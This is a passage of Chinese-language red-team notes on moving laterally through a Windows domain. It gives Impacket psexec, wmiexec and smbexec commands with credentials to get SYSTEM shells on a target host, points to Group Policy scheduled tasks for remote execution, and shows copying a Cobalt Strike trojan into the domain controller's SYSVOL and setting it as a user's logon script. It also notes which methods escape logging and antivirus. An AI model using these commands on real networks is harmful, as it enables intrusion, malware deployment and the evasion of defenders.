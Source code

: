 ```bash

#删除共享映射
net use * /del
```

## 无防火墙

**psexec、wmiexec等方式获取指定主机命令执行权限**

impacket工具包：https://github.com/SecureAuthCorp/impacket

**impacket工具包中的PsExec**

```bash
python psexec.py 用户名:密码@目标IPpython psexec.py Administrator:@hack.51463708@10.1.1.14
```

会直接反弹一个SYSTEM权限的shell。

> 随着PsExec在内网中被严格监控，越来越多的杀毒厂商已经把PsExec加入了黑名单；
>
> 而且PsExec执行程序时会创建一个psexec服务，并产生大量日志，可以通过日志反推攻击流程。

**使用WMI执行程序（目标需开放135端口）**

WMI是Windows的一个管理工具集，Windows默认不会把WMI的操作记录到日志中

**impacket工具包中的wmiexec**

```bash
python wmiexec.py administrator:@hack.51463708@10.1.1.14
```

**Impacket中的smbexec.py** 

```bash
python smbexec.py administrator:@hack.51463708@10.1.1.14
```

## 防火墙全开

**1、通过组策略下发命令执行**

改一下这个[三好学生的脚本](https://3gstudent.github.io/3gstudent.github.io/域渗透-利用GPO中的计划任务实现远程执行/)就能用

**2、通过设置登陆脚本上线指定用户**

>  IPC连接到域控，copy文件，在成员上执行 
>
>  login.bat 是cs生成的马

一）使用dsmod给指定域用户设置登陆脚本

login.bat放在域控的NETLOGON目录下面

```bash
copy login.bat \\域控\SYSVOL\sysvol\域名\SCRIPTS\login.bat
dsmod user -loscr "test.bat" "CN=x,OU=x,DC=x,DC=x,DC=x"
```
